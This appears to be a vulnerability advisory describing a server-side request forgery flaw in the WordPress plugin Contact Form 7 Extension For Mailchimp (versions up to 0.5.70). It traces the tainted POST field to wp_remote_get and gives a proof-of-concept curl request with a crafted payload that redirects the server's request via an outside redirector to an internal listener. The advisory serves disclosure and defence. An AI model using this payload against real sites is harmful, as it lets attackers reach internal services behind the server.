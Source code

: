 ### Contact Form 7 Extension For Mailchimp <= 0.5.70 SSRF

Contact Form 7 Extension For Mailchimp <= 0.5.70 is vulnerable to SSRF

Source: `$_POST`

Sink: `wp_remote_get`

Code: 

lib/find.php

```
function wpcf7_mce_loadlistas(){
  mceapi = isset($_POST['mceapi']) ? $_POST['mceapi'] : 0;
  ...
  $tmppost = $tmppost + array('api' => $mceapi);
  update_option($mce_idformxx, $tmppost);
  ...
  $cf7_mch = get_option($mce_idformxx, $cf7_mch_defaults);
  $api = $cf7_mch['api'];
  $dc = explode("-", $api);
  $urlmcv3 = "https://$dc[1].api.mailchimp.com/3.0";
  ...
  $url_get_merge_fields = "$urlmcv3/lists/$list/merge-fields";  //// $urlmcv3
  $arraymerger_ = callApiGet($dc[0], $url_get_merge_fields);
}

function callApiGet($token, $url) {
  ...
  $mergerfield = wp_remote_get($url, $header);
}
```

option.php

```
function update_option( $option, $value, $autoload = null ) {
  ...
  $serialized_value = maybe_serialize( $value );
  ...
  $update_args = array(
		'option_value' => $serialized_value,
	);
  ...
  $result = $wpdb->update( $wpdb->options, $update_args, array( 'option_name' => $option ) );
}
```

POC:

1. Listen on 8888 on server side
2. Login to get cookie
3. Send a post request through curl: `curl -X POST http://127.0.0.1:28000/wp-admin/admin-ajax.php\?action\=wpcf7_mce_loadlistas -d "mceapi=-ssrf.localdomain.pw%2Fcustom%252D30x%2F%3Fcode%3D301%26url%3Dhttp%3A%2F%2F127.0.0.1%3A8888%26a%3D" --cookie "wordpress_cookie"`
4. Receive a request on server side. 

Status: Acknowledged